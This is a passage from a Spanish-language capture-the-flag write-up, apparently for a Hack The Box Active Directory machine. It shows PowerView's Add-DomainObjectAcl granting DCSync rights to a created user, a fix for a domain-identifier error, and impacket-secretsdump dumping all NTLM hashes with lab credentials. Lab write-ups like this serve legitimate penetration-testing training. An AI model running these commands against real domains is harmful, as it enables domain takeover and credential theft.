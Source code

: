 Importamos powerview.ps1 para poder hacer uso de Add-DomainObjectAcl:

``. .\powerview.ps1``

Otorgamos privilegios DCSync al usuario pwn:

``Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwn -Rights DCSync``

Inciso importante.

Aquí bloodhound propone ejecutar el anterior comando identificando al dominio de la siguiente forma: ``-TargetIdentity htb.local``. Sin embargo, cuando se realiza la técnica DCSync desde el usuario pwn, nos salta error mencionando el Distinguised Name.
Error:

![28](Images/28.png)

Y aunque se utilice -use-vss como nos propone, nos da acceso denegado:

![29](Images/29.png)

Esto se soluciona identificando al dominio como se ha descrito en el primer comando:

``-TargetIdentity "DC=htb,DC=local"``

![30](Images/30.png)


Una vez el usuario pwn tiene el privilegio DCSync, lo explotamos vía impacket para volcar todos los hashes NTLM:

``impacket-secretsdump htb.local/'pwn':'pwned123!'@'10.10.10.161'``
